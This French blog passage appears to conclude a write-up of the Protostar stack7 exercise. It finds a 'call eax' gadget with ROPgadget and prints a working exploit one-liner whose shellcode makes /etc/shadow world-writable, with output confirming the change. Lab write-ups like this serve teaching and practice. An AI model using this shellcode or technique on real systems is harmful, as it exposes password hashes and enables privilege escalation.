 Avec ROPgadget on trouve facilement un gadget utile pour sauter sur l'adresse pointée :

```nasm
0x080484bf : call eax
```

Seulement à cause de cet appel supplémentaire la pile est aussi modifiée ce qui signifie que des instructions invalides peuvent être placées au milieu de notre shellcode.

Il apparait ici que la modification est plutôt faite vers la fin donc on va éviter d'utiliser un nopsled (dont on n'a pas besoin ici) et plutôt mettre le shellcode en tête suivi de padding 'qui pourra être écrasé sans problèmes).

On va aussi avoir recours à un shellcode court comme [Linux/x86 - chmod 777 /etc/shadow + exit() Shellcode (33 bytes)](https://www.exploit-db.com/shellcodes/37285) :

```shellsession
$ python -c 'print "\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\xb0\x0f\x89\xe3\x66\xb9\xff\x01\xcd\x80\x31\xc0\x40\xcd\x80" + "A"*47 +"\xbf\x84\x04\x08"' | ./stack7
input path please: got path 1�Phadowhc/shh//et���f��̀1�@̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA��
$ ls -al /etc/shadow
-rwxrwxrwx 1 root shadow 938 Nov 24  2011 /etc/shadow
```

C'est terminé pour ces exercices concernant la stack :-)

EDIT: Il y a apparemment ce site qui reprend le projet de manière assez officielle : [Protostar :: Andrew Griffiths' Exploit Education](https://exploit.education/protostar/)

*Publié le 5 janvier 2023*
